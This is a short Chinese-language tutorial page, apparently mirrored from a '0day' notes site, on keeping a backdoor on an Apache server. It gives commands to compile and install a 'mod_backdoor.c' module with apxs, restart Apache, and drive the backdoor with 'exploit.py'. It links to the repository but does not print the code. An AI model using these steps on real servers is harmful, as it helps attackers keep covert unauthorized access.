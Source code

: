 # Apache 后门维持

> 原文：[http://book.iwonder.run/0day/Apache/4.html](http://book.iwonder.run/0day/Apache/4.html)

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

[https://github.com/ianxtianxt/apache-](https://github.com/ianxtianxt/apache-)

### 1、上传 mod_backdoor.c 到服务器，并执行命令

```
apxs -i -a -c mod_backdoor.c && service apache2 restart 
```

![image](img/bb30dd7d1abdb0bf55375cc268a0caeb.png)

### 2、控制端执行方法

```
python exploit.py 127.0.0.1 80 
```

![image](img/f2219743d03e1b518afaa91d1f65ceae.png)

